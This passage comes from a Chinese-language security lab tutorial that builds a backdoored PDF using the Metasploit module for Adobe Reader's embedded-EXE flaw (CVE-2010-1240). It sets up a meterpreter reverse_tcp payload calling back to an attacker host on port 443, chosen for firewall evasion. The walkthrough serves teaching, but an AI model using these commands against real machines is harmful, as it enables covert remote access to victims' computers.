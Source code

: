 为了让被感染的 PDF 具有更大的价值，我们准备给这个 PDF 设置一个自定义的 payload。

重新进入到 msfconsole：

```
msfconsole
```

在 msfconsole 下依次按照上述步骤执行，选择攻击模块：

```
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

此处我们使用的 payload 是 `windows/meterpreter/reverse_tcp`，如果想选择其他的 payload，可以使用 `show payloads` 命令查看并选择。

`windows/meterpreter/reverse_tcp` 是 meterpreter 后门程序，会从被攻击的主机建立到攻击者主机的 TCP 连接，攻击者能够直接进入被攻击的主机。

使用 `windows/meterpreter/reverse_tcp` 作为嵌入的 payload：

```
msf > set payload windows/meterpreter/reverse_tcp
```

对 payload 进行配置，至少需要指定 Kali 的 IP 地址和端口用来接收后门建立的连接，这里需要注意目标主机必须和我们 Kali 主机互相之间可以连接：

```
msf > set lhost 192.168.122.101
msf > set lport 443
```

使用 443 端口的好处是不容易被防火墙拦住。

后续的步骤与前面完全相同，根据需求设定输入的 PDF 文件和输出的 PDF 文件路径，然后 `exploit` 就可以得到结果了。

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2320timestamp1480500517940.png/wm)

### 4.7 再次查看输出结果

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2320timestamp1480500524387.png/wm)

是不是比默认的 payload 还要小些？

## 五、总结

本实验中在 Kali Linux 下，利用 Adobe Reader 对嵌入内容不做判断的漏洞，向 PDF 文件中嵌入后门程序，并引导用户去点击运行，从而获得目标主机的访问权限，涉及到的知识点有：

- Linux 基本操作命令
- MSF 终端下的操作流程
- Adobe PDF 嵌入 EXE 漏洞 CVE-2010-1240 介绍
- 如何利用漏洞嵌入后门程序

## 六、课后作业

完成以下作业，巩固实验知识：

- 搜索看是否还有其他的 PDF 漏洞攻击模块可以尝试使用，阅读源码理解原理。
- 尝试使用不同的 payload 注入 PDF，对比下不同 payload 的大小有什么区别？

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。